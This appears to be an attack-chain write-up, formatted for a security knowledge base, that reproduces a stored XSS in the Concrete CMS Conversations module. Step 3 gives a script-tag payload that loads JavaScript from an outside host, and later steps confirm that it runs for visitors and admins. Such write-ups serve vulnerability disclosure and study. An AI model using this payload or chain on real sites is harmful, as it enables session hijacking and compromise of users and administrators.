

# Stored XSS in Concrete CMS Conversations via Rich Text Editor

Multi-stage attack chain demonstrating the exploitation of a Stored XSS vulnerability in the Concrete CMS Conversations module. The attack involves configuring the editor to allow raw HTML input, injecting a malicious script into a blog comment, and verifying execution across frontend and backend contexts, enabling arbitrary JavaScript execution for anonymous users, authenticated visitors, and admins.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/TinyMCE-Editor]]
- [[tools/Chrome-Browser]]
- [[tools/Firefox-Browser]]

### Target Environment

- Concrete CMS 8.5.2a1 running on PHP 7.1.23 and Apache 2.4.34
- MySQL Community Server 8.0.16
- Web platform with Conversations module enabled
- Blog entry configured to allow comments using default Elemental theme

### Initial Access Requirements

- Administrative access to configure Conversations settings
- Ability to post comments as a user (anonymous or authenticated)
- Network access to the target site

## Detailed Attack Procedures

### Step 1: Configure Editor
procedure: [[procedures/Configure-Active-Conversation-Editor-to-Rich-Text]]

**Objective**: Enable raw HTML input in the comment editor to bypass sanitization.

**Instructions**: Navigate to the admin settings and set the Active Conversation Editor to Rich Text mode.

**Expected Output**: Editor configuration updated, allowing Source mode in TinyMCE.

**Success Indicators**:
- Settings saved without errors
- Rich Text option active in Conversations settings

### Step 2: Access Comment Section
procedure: [[procedures/Access-Blog-Entry-for-Commenting]]

**Objective**: Locate a vulnerable input point for injecting the payload.

**Instructions**: Open a blog post that permits comments.

**Expected Output**: Comment form visible with Rich Text editor.

**Success Indicators**:
- Blog entry loads with comment section
- Editor appears as configured

### Step 3: Insert Payload
procedure: [[procedures/Insert-Malicious-Script-Payload-in-Comment]]

**Objective**: Inject unsanitized HTML script tag into the comment field.

**Instructions**: Switch to Source mode and insert the payload using [[commands/insert-stored-xss-payload]]:

```html
<script src="http://bl4de.tech/poc.js"></script>
```

**Expected Output**: Payload entered in the HTML source without alteration.

**Success Indicators**:
- Source mode accepts script tag
- No immediate sanitization or errors

### Step 4: Post Comment
procedure: [[procedures/Post-Malicious-Comment]]

**Objective**: Store the payload in the database for persistence.

**Instructions**: Submit the comment form.

**Expected Output**: Comment posted, script executes immediately for the poster.

**Success Indicators**:
- Comment appears on the page
- Console shows execution log from poc.js

### Step 5: Verify for Visitors
procedure: [[procedures/Verify-Payload-Execution-for-Site-Visitors]]

**Objective**: Confirm persistence and execution for other users.

**Instructions**: Reload the page in a different browser session as anonymous or logged-in user, check console.

**Expected Output**: Script loads and logs message in console.

**Success Indicators**:
- JS executes in Chrome/Firefox console
- Log: 'This file is loaded from bl4de.tech domain and executed in context of [domain]'

### Step 6: Verify for Admins
procedure: [[procedures/Verify-Payload-Execution-in-Admin-Panel]]

**Objective**: Demonstrate backend impact on admin interfaces.

**Instructions**: Log in as admin and navigate to Conversations -> Messages.

**Expected Output**: Payload executes in admin context.

**Success Indicators**:
- Script runs in admin dashboard
- Console confirms execution

## Attack Chain Summary

### Key Achievements

1. Bypassed HTML sanitization via TinyMCE Source mode
2. Achieved persistent XSS affecting all site visitors
3. Demonstrated execution in both frontend and admin backend

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
